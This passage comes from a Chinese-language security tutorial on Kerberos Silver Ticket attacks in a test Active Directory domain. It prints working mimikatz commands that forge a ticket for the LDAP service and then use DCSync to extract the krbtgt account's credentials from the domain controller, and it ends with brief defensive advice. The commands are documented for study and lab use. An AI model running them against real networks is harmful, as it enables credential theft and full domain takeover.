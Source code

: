 mimikatz导入Silver Ticket的命令为：

```
mimikatz "kerberos::golden /domain:test.local /sid:S-1-5-21-4155807533-921486164-2767329826 /target:WIN-8VVLRPIAJB0.test.local /service:LDAP /rc4:d5304f9ea69523479560ca4ebb5a2155 /user:krbtgt /ptt"

```

此时`dir \\WIN-8VVLRPIAJB0.test.local\c$`发现无法访问，也就是前面提到的

> Silver Ticket是伪造的TGS，也就是说其范围有限，只能访问指定的服务权限

如图，虽然成功导入，但是无法访问域控的文件共享![Alt text](http://drops.javaweb.org/uploads/images/e80f06512794b81ddee2b94a899b96f413943b1d.jpg)

但是执行如下命令可以远程访问LDAP服务来获得krbtgt的信息：

```
mimikatz "lsadump::dcsync /dc:WIN-8VVLRPIAJB0.test.local /domain:test.local /user:krbtgt"

```

如图，成功远程获得krbtgt账户信息![Alt text](http://drops.javaweb.org/uploads/images/ad1191e312de3baedffc0875cadba790968a991d.jpg)

注：

```
lsadump::dcsync
向 DC 发起一个同步对象（可获取帐户的密码信息）的质询。
需要的权限包括管理员组（Administrators），域管理员组（ Domain Admins）或企业管理员组（Enterprise Admins）以及域控制器的计算机帐户
只读域控制器默认不允许读取用户密码数据

```

参数选项：

```
/user - 要查询的用户id 或 SID
/domain（可选的）默认设置为当前域。
/dc（可选的）指定DCSync 连接的域控位置

```

当然，还有其他服务可通过伪造Silver Ticket访问：

如图列举了其他可用作Silver Ticket的服务：![Alt text](http://drops.javaweb.org/uploads/images/09da791ddfba9536ccbee0d373bfd02d0b16ea92.jpg)

此图片引用自https://adsecurity.org/?p=2011

0x06 防御
=====

1.  域控及时更新补丁
2.  时刻监控域控日志
3.  限制mimikatz使用

0x07 小结
=====
